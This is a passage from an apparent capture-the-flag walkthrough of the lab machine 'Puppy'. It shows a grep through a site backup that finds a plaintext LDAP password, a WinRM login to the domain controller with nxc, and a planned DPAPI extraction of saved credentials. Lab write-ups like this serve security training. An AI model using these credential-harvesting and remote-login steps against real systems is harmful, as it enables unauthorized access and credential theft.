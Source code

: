 We found a backup file, which we can download and extract to analyze it locally. Searching for some more credentials for others users on the machine, we can `grep` for the `usernames` to try to find some more credentials.

```bash
ls

 puppy   site-backup-2024-12-30.zip

cat ../users | while IFS= read -r line; do grep -A2 -Ri "$line";done

puppy/index.html:                                                                                                   <h3><a href="#"> Levi James </a></h3>
puppy/index.html-                                                                                                   <p>
puppy/index.html-Our expert in hiring interns and contract employees carefully scouted from the country's best educational intitutes.                                                                        </p>
puppy/index.html:                                                               <h3><a href="#"> Adam Silver </a></h3>
puppy/index.html-                                                                               <p>
puppy/index.html-Our front-end developer who gets involved with our customer's satisfaction when using products from puppy. Currently absent for a short-term training at the Univerity of oxford.
puppy/index.html:                                                               <h3><a href="#"> Jamie Williamson </a></h3>
puppy/index.html-<p> Our Junior Developer actively solving challenges and gaining experience alongside senior acquaintances. </p>
puppy/index.html-                                                                                                   </section>
puppy/nms-auth-config.xml.bak:        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
puppy/nms-auth-config.xml.bak-        <bind-password>ChefSteph2025!</bind-password>
puppy/nms-auth-config.xml.bak-    </server>
```

We can see that we have found some more credentials for `steph.cooper`, which we can use to access the machine.

```bash
nxc winrm DC.PUPPY.HTB -u steph.cooper -p 'ChefSteph2025!'

WINRM       10.129.16.111   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.129.16.111   5985   DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025! (Pwn3d!)
```

## Privilege Escalation

From inside the machine, we can try to extract saved credentials from the machine using `dpapi`. Looking at the user's `AppData` folder, we can see that there is a `Microsoft` folder, which contains a `Credentials` folder. Inside the `Credentials` folder, we can see that it is not empty, so we can try to extract the credentials using impacket's `dpapi` tool.
